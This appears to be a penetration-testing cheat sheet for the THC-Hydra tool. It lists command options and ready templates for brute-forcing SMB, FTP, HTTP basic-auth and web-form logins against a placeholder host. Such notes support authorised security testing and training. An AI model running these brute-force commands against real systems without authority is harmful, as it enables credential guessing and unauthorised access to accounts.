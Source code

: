 ### source
https://github.com/vanhauser-thc/thc-hydra  

### some useful arguments
```
-l user, -L userList
-C user-pass-list (root:password)
-p password, -P  passwordlist
-e = nsr "n" null password, "s" login as pass and/or "r" reversed login
-s use another port
```

### bruteforce smb login 
```
hydra -L <userFile> -P <pwFile> -e nsr smb://<rhost>
```

### bruteforce ftp login, -t number of simultaneously tasks, -f stop on success
```
hydra -t 5 -V -f -C <userPassFile> ftp://<rhost>
```

### bruteforce basic authentication, -f stop on success
```
hydra -C <userPassFile> -f <rhost> -s <port> http-get </path/to/login>
```

### bruteforce http login (use http-post-form for POST)
```
hydra <rhost> -V -l <user> -P <pwFile> http-get-form "<path/to/login.php>:<userParam>=^USER^&<passwordParam>=^PASS^:<Login error>"
```

